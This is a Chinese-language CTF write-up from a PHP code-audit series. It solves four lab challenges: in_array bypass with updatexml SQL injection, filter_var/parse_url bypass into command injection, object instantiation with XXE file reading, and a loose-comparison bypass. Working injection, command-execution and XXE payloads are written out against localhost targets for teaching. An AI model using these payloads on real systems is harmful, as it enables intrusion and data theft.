## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 **PHP-Audit-Labs** 。我们已经发表的系列文章如下：

[[红日安全]代码审计Day1 - in_array函数缺陷](https://xz.aliyun.com/t/2451)

[[红日安全]代码审计Day2 - filter_var函数缺陷](https://xz.aliyun.com/t/2457)

[[红日安全]代码审计Day3 - 实例化任意对象漏洞](https://xz.aliyun.com/t/2459)

[[红日安全]代码审计Day4 - strpos使用不当引发漏洞](https://xz.aliyun.com/t/2467)

在每篇文章的最后，我们都留了一道CTF题目，供大家练习。下面是 **Day1-Day4** 的题解：

## Day1题解：(By 七月火)

题目如下：




实际上这道题目考察的是 **in_array** 绕过和不能使用拼接函数的 **updatexml** 注入，我们先来看一下 **in_array** 的绕过。在下图第11~13行处，程序把用户的ID值存储在 **$whitelist** 数组中，然后将用户传入的 **id** 参数先经过stop_hack函数过滤，然后再用 **in_array** 来判断用户传入的 **id** 参数是否在 **$whitelist** 数组中。这里 **in_array** 函数没有使用强匹配，所以是可以绕过的，例如： **id=1'** 是可以成功绕过 **in_array** 函数的。



然后在说说 **updatexml** 注入，这题的注入场景也是在真实环境中遇到的。当 **updatexml** 中存在特殊字符或字母时，会出现报错，报错信息为特殊字符、字母及之后的内容，也就是说如果我们想要查询的数据是数字开头，例如 **7701HongRi** ，那么查询结果只会显示 **HongRi** 。所以我们会看到很多 **updatexml** 注入的 **payload** 是长这样的 **and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)** ,在所要查询的数据前面凭借一个特殊符号(这里的 **0x7e** 为符号 **'~'** )。

回到题目，我们看一下 **stop_hack** 函数过滤了什么。可以发现该方法过滤了字符串拼接函数（下图第2行），所以我们就要用其他方法来绕过。



我们直接来看一下本题的 **payload** ：

```http
http://localhost/index.php?id=4 and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))
```



实际上，绕过的思路还是将特殊字符或字母拼接在我们想要的数据的前面，让数据的第一个字符为字母或符号即可，这里给出我以前写的分析 [**文章**](https://xz.aliyun.com/t/2160) ，供大家参考学习。

## Day2题解：(By 七月火)

题目如下：



这道CTF题目，实际上考察的是 **filter_var** 函数的绕过与远程命令执行。在题目 **第6行** ，程序使用 **exec** 函数来执行 **curl** 命令，这就很容易让人联系到命令执行。所以我们看看用于拼接命令的 **$site_info['host']** 从何而来。在题目 **第2-4行** ，可以看到  **$site_info** 变量是从用户传来的 **url** 参数经过 **filter_var** 和 **parse_url** 两个函数过滤而来。之后，又规定当 **url** 参数的值以 **sec-redclub.com** 结尾时，才会执行 **exec** 函数。

所以让我们先来绕过 **filter_var** 的 **FILTER_VALIDATE_URL** 过滤器，这里提供几个绕过方法，如下：

```bash
http://localhost/index.php?url=http://demo.com@sec-redclub.com
http://localhost/index.php?url=http://demo.com&sec-redclub.com
http://localhost/index.php?url=http://demo.com?sec-redclub.com
http://localhost/index.php?url=http://demo.com/sec-redclub.com
http://localhost/index.php?url=demo://demo.com,sec-redclub.com
http://localhost/index.php?url=demo://demo.com:80;sec-redclub.com:80/
http://localhost/index.php?url=http://demo.com#sec-redclub.com
PS:最后一个payload的#符号，请换成对应的url编码 %23
```

接着要绕过 **parse_url** 函数，并且满足 **$site_info['host']** 的值以 **sec-redclub.com** 结尾，payload如下：

```bash
http://localhost/index.php?url=demo://%22;ls;%23;sec-redclub.com:80/
```



当我们直接用 **cat f1agi3hEre.php** 命令的时候，过不了 **filter_var** 函数检测，因为包含空格，具体payload如下：

```bash
http://localhost/index.php?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/
```

所以我们可以换成 **cat<f1agi3hEre.php** 命令，即可成功获取flag：



关于 **filter_var** 函数绕过更多的细节，大家可以参考这篇文章：[SSRF技巧之如何绕过filter_var( )](https://www.anquanke.com/post/id/101058) ，关于命令执行绕过技巧，大家可以参考这篇文章：[浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html) 。

## Day3题解：(By 七月火)

题目如下：



这道题目考察的是实例化漏洞结合XXE漏洞。我们在上图第18行处可以看到使用了 **class_exists** 函数来判断类是否存在，如果不存在的话，就会调用程序中的 **__autoload** 函数，但是这里没有 **__autoload** 函数，而是用 [**spl_autoload_register**](http://php.net/manual/en/function.spl-autoload-register.php) 注册了一个类似 **__autoload** 作用的函数，即这里输出404信息。

我们这里直接利用PHP的内置类，先用 **GlobIterator** 类搜索 **flag文件** 名字，来看一下PHP手册对 **GlobIterator** 类的 构造函数的定义：

>public **GlobIterator::__construct** ( string `$pattern` [, int `$flags` = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] )

第一个参数为要搜索的文件名，第二个参数为选择文件的哪个信息作为键名，这里我选择用 **FilesystemIterator::CURRENT_AS_FILEINFO** ，其对应的常量值为0，你可以在 [这里](http://php.net/manual/en/globiterator.construct.php) 找到这些常量的值，所以最终搜索文件的 **payload** 如下：

```bash
http://localhost/CTF/index.php?name=GlobIterator&param=./*.php&param2=0
```



我们将会发现flag的文件名为 **f1agi3hEre.php** ，接下来我们使用内置类 **SimpleXMLElement** 读取 **f1agi3hEre.php** 文件的内容,，这里我们要结合使用PHP流的使用，因为当文件中存在： **<   >   &   '   "** 这5个符号时，会导致XML文件解析错误，所以我们这里利用PHP文件流，将要读取的文件内容经过 **base64编码** 后输出即可，具体payload如下：

```bash
http://localhost/CTF/index.php?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/CTF/f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```



上面payload中的param2=2，实际上这里2对应的模式是 **LIBXML_NOENT** ，具体可以参考 [这里](http://php.net/manual/en/simplexmlelement.construct.php) 。

## Day4题解：(By 七月火)

本次题目为QCTF 2018中的一道题目，由于代码太多，这里就不贴出原图片。题目的场景为：一个彩票系统，每位用户初始情况下有20$，由用户输入一个7位数，系统也会随机生成一个7位数。然后逐位数字进行比较，位数相同的个数越多，奖励的前也越多。当你的钱足够买flag的时候，系统就会给你flag。



我们来看一下后台代码是如何进行比较的，比较代码在 **buy.php** 文件中：



在上图中看到表单的部分( **代码4-8行** )，调用了 **js/buy.js** 文件，应该是用来处理上面的表单的，我们具体看一下 **js** 代码：



在 **第10行** 处看到，程序将表单数据以 **json** 格式提交到服务器端，提交页面为 **api.php** ，我们转到该文件看看。


这里主要是对数字进行比较，注意 **第13行** 用的是 **==** 操作符对数据进行比较，这里会引发安全问题。因为用户的数据是以 **json** 格式传上来的，如果我们传一个数组，里面包含7个 **true** 元素，这样在比较的时候也是能相等的。因为 **==** 运算符只会判断两边数据的值是否相等，并不会判断数据的类型。而语言定义，除了 **0、false、null** 以外均为 **true** ，所以使用 **true** 和数字进行比较，返回的值肯定是 **true 。只要后台生成的随机数没有数字0，我们传入的payload就能绕过每位数字的比较。我们发送几次payload后，就可以买到flag了。



在看官方WP的时候，还发现另外一种解法，也是一种不错的思路。

>另外比赛过程中发现有的选手用了暴力重复注册然后买彩票的方法。考虑了一下这种方法花费的时间并不比直接审计代码短，为了给广大彩民一点希望，可以留作一种备选的非预期解，就没有改题加验证码或者提高flag价格。

## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！